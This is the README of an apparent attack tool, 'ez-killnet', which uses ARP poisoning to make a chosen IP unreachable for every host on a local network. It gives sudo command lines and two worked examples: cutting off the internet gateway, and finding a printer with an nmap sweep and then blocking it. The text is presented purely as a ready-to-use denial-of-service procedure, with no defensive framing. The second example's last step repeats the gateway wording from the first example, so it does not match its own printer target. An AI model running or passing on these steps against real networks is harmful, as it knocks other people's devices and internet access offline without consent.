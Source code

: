 # ez-killnet
kill whole network (2.4GHz + 5GHz + eth + anything) using arp poisoning 

cd to directory and run the following 
sudo ./ez-killnet.py -i [interface to use for attack] -t [ipaddr to make unreachable on lan] 

example: (kill internet gateway) 
1. connect wlan0 to network 
2. route -n to find gateway (found it to be 192.168.10.1)
3. sudo ./ez-killnet.py -i wlan0 -t 192.168.10.1 
4. now all hosts on network cannot reach this gateway and they all have trouble connecting to the internet example: 

example: (kill valuable resources) 
1. connect eth0 to network 
2. nmap -sn 192.168.10.* to learn about hosts (found printer to be 192.168.10.226)
3. sudo ./ez-killnet.py -i eth0 -t 192.168.10.226 
4. now all hosts on network cannot reach this gateway and they all have trouble connecting to the internet 


